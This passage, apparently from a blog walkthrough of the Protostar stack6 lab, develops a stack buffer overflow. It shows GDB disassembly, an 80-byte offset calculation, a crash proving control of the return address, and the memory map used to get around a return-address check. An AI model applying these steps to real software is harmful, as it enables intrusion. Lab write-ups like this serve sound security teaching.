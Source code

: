 ```
0x080484d3 <getpath+79>:        call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:        movl   $0x1,(%esp)
0x080484df <getpath+91>:        call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:        mov    $0x80485f0,%eax
0x080484e9 <getpath+101>:       lea    -0x4c(%ebp),%edx
0x080484ec <getpath+104>:       mov    %edx,0x4(%esp)
0x080484f0 <getpath+108>:       mov    %eax,(%esp)
0x080484f3 <getpath+111>:       call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:       leave
0x080484f9 <getpath+117>:       ret
End of assembler dump.
```

We immediately see that `buffer` starts at `-0x4c(%ebp)`, which means that we
need to write 80 bytes (`0x4c` + 4 bytes for the old `$ebp`) plus the 4 bytes
we want `$eip` to be at after the `ret` instruction. This makes sense because
4 more bytes is allocated on the stack (compared to the previous level) to
store the `unsigned int ret` variable.

```
(gdb) run
Starting program: /opt/protostar/bin/stack6
input path please: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Now, let's take a look at what the `ret & 0xbf000000` does exactly. We can see
from GDB that the stack is mapped to the memory between `0xbffeb000` and
`0xc0000000`. The check essentially prevents us from returning directly to a
memory address on the stack. You can think of this as a crude implementation of
a non-executable stack.

```
(gdb) info proc map
process 2715
cmdline = '/opt/protostar/bin/stack6'
cwd = '/tmp'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fde000 0xb7fe2000     0x4000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```


[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: {% post_url 2018-01-01-nebula-walkthrough %}
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/